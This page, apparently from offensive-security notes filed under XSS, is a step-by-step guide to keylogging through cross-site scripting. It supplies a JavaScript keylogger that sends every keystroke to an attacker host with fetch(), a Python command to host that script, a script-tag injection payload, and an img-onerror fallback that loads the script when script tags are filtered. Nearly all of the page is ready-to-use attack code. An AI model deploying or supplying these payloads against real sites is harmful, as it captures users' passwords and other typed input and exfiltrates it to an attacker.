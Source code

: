 ```yaml
---
title: Keylogging
layout: default
parent: XSS
has_children: false
nav_order: 3
---
```


<h2>Hosting method:</h2>

1. First create a file name keylog.js with the following content:
```
function logKey(event){
        fetch("http://domain/?keylog=" + event.key)
}
document.addEventListener('keydown', logKey);
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src="http://ownIP/keylog.js"></script>`

4. Can also use the following if script tag is blocked:
`<img src="x" onerror="document.head.appendChild(Object.assign(document.createElement('script'), {src: 'http://domain/keylog.js'}))">`